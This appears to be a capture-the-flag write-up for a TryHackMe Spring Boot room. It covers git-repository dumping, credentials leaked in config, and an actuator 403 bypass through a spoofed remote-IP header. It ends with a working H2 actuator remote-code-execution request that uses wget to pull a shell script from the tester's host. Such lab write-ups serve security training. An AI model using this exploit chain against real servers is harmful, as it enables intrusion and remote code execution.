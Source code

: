 `nmap -sVC -T4 -p- 10.10.197.190`
![](attachment/dd21494c789ea7f67049471168063f32.png)
![](attachment/bd861fd80df1764cbed29f8a04ac4da0.png)
![](attachment/ff63ca7a5a002b41f3b4d326bee4e6ba.png)
![](attachment/e47e3a0e7a9f04bf3ffa4efffcc20442.png)
https://github.com/internetwache/GitTools
You can use this tool to find websites with their .git repository available to the public
`./gitdumper.sh https://10.10.197.190/sources/new/.git/ /home/yousef/tryhackme/Spring/`
![](attachment/495180e777c11577ec05b0179ff112c2.png)
![](attachment/f9078074d0171e3627aefeb38138cc09.png)
![](attachment/cab1134f3b266c18e228ed04978d8687.png)
The ==git reset== command is used to undo the changes in your working directory and get back to a specific commit while discarding all the commits made after that one. For instance, imagine you made ten commits. Using git reset on the first commit will remove all nine commits, taking you back to the first commit stage.
![](attachment/a028d97f0e38f2445deffdbf679f976b.png)
some files did appear!
![](attachment/1b64869d8a5fd43659519b04792d2cc3.png)
I think it's a java application
got to the java code in the main
![](attachment/f209449219f6eba31e395f96ef841e07.png)
![](attachment/1eb1bff4e7f331b4a47826f0ef05df89.png)
```Java
    @RestController
    //https://spring.io/guides/gs/rest-service/
    static class HelloWorldController {
        @RequestMapping("/")
        public String hello(@RequestParam(value = "name", defaultValue = "World") String name) {
            System.out.println(name);
            return String.format("Hello, %s!", name);
        }
    }
```
I think it accepting ?name parameter
![](attachment/f207439a332364f484befd85dc937ba9.png)
It is accepting parameters 
it is using tomcat server
![](attachment/300bbdb35b68ed0debfb41eacf604c48.png)
has acutator endpoint can only access from ==172.16.0.0== ip
![](attachment/d6a9379c80fe817ae6651788fd6a6cc5.png)
https://www.baeldung.com/spring-boot-actuators
https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database/
Found creds on application.proberites 
![](attachment/e0a78630d4048d4f1255dcb18bfe0233.png)
```
server.ssl.key-store-password=DummyKeystorePassword123.
spring.security.user.name=johnsmith
spring.security.user.password=PrettyS3cureSpringPassword123.
```
but no lucky trying to ssh
![](attachment/babaf8bdc85a11d20aa5fe1583f5c614.png)
but this header
```
server.tomcat.remoteip.remote-ip-header=x-9ad42dea0356cb04
```
when access the actutator endpoint we get 403
![](attachment/c1bed25fd4c40292f3a2eff1636635ce.png)
but adding ==x-9ad42dea0356cb04: 127.16.0.2== to the request:


```
POST /actuator/env HTTP/1.1
Host: target.app
Content-Type: application/json

{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS EXEC AS CONCAT('String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new',' java.util.Scanner(Runtime.getRun','time().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }');CALL EXEC('wget http://10.9.4.217/shell.sh');');"}
```
